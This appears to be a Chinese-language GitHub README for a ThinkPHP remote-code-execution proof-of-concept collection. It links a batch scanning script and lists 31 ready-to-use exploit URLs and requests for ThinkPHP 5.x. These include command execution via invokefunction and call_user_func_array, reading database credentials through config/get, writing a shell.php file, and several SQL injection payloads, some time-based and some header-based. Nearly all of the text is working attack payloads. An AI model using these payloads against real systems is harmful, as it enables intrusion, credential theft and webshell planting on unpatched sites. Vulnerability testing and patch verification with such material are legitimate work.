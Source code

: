 # thinkphp-RCE-POC</br>
官方公告:https://blog.thinkphp.cn/869075</br>

用python3和协程编写的think批量测试工具，需要大佬们手动添加payload。</br>
https://github.com/SkyBlueEternal/thinkphp-RCE-POC-Collection/blob/master/ScanThinkphpRCE-POC.py</br>
使用方法:</br>
 usage:</br>
                        ScanThinkphpRCE-POC.py -f target.txt # 批量检测是否存在thinkPHP代码执行漏洞</br>
                        ScanThinkphpRCE-POC.py -u target_URL # 指定检测是否存在thinkPHP代码执行漏洞</br>

</br>
POC：</br>
# thinkphp 5.0.22</br>
1、http://192.168.1.1/thinkphp/public/?s=.|think\config/get&name=database.username</br>
2、http://192.168.1.1/thinkphp/public/?s=.|think\config/get&name=database.password</br>
3、http://url/to/thinkphp_5.0.22/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id</br>
4、http://url/to/thinkphp_5.0.22/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1</br>
# thinkphp 5</br>
5、http://127.0.0.1/tp5/public/?s=index/\think\View/display&content=%22%3C?%3E%3C?php%20phpinfo();?%3E&data=1</br>
# thinkphp 5.0.21</br>
6、http://localhost/thinkphp_5.0.21/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id</br>
7、http://localhost/thinkphp_5.0.21/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1</br>
# thinkphp 5.1.*</br>
8、http://url/to/thinkphp5.1.29/?s=index/\think\Request/input&filter=phpinfo&data=1</br>
9、http://url/to/thinkphp5.1.29/?s=index/\think\Request/input&filter=system&data=cmd</br>
10、http://url/to/thinkphp5.1.29/?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=%3C?php%20phpinfo();?%3E</br>
11、http://url/to/thinkphp5.1.29/?s=index/\think\view\driver\Php/display&content=%3C?php%20phpinfo();?%3E</br>
12、http://url/to/thinkphp5.1.29/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1</br>
13、http://url/to/thinkphp5.1.29/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cmd</br>
14、http://url/to/thinkphp5.1.29/?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1</br>
15、http://url/to/thinkphp5.1.29/?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cmd</br>
# 未知版本</br>
16、?s=index/\think\module/action/param1/${@phpinfo()}</br>
17、?s=index/\think\Module/Action/Param/${@phpinfo()}</br>
18、?s=index/\think/module/aciton/param1/${@print(THINK_VERSION)}</br>
19、index.php?s=/home/article/view_recent/name/1' </br>
    header = "X-Forwarded-For:1') and extractvalue(1, concat(0x5c,(select md5(233))))#"</br>
20、index.php?s=/home/shopcart/getPricetotal/tag/1%27</br>
21、index.php?s=/home/shopcart/getpriceNum/id/1%27</br>
22、index.php?s=/home/user/cut/id/1%27</br>
23、index.php?s=/home/service/index/id/1%27</br>
24、index.php?s=/home/pay/chongzhi/orderid/1%27</br>
25、index.php?s=/home/pay/index/orderid/1%27</br>
26、index.php?s=/home/order/complete/id/1%27</br>
27、index.php?s=/home/order/complete/id/1%27</br>
28、index.php?s=/home/order/detail/id/1%27</br>
29、index.php?s=/home/order/cancel/id/1%27</br>
30、index.php?s=/home/pay/index/orderid/1%27)%20UNION%20ALL%20SELECT%20md5(233)--+</br>
31、POST /index.php?s=/home/user/checkcode/ HTTP/1.1</br>
    Content-Disposition: form-data; name="couponid"</br>
    1') union select sleep('''+str(sleep_time)+''')#</br>
